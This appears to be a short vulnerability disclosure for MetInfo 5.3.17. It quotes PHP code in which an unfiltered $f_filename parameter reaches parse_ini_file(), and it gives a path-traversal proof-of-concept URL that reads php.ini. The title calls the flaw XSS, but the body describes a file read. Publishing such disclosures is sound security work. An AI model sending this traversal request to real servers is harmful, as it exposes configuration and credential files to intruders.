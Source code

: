 # MetInfo 5.3.17 PV statistics sitepage XSS #


## 1.Technical Description: ##

locate in /admin/app/physical/physical.php 

	elseif($action=="fingerprintdo"){
    	if(file_exists($f_filename)){fingerprint('../../..',$f_filename);}
     	else{$physical_fingerprint="-1";}
     	require_once $depth.'../include/config.php';
       	header("location:advanced.php?lang={$lang}&anyid={$anyid}&cs=3&phy=1");exit;

Then we can control the variable $f_filename in the function fingerprint() 


locate in function fingerprint()

	function fingerprint($jkdir,$fileback){
    	global $filenamearray,$physical_fingerprint,$url_array;
    	$adminfile=$url_array[count($url_array)-2];
    	deltree(ROOTPATH.'/cache');
    	deltree(ROOTPATH."/$adminfile/update");
   		$physical_fingerprint="";
    	$fbdir=$fileback;
    	$fileback=parse_ini_file($fileback,true);

The $fileback didn't be filtered.So we can use $fileback to read other file.

## 2.PoC ##

we use

> http://127.0.0.1/admin/app/physical/physical.php?action=fingerprintdo&f_filename=../../../../../bin/php/php5.6.25/php.ini


![](https://github.com/phantom0301/vulns/blob/master/333.jpg)

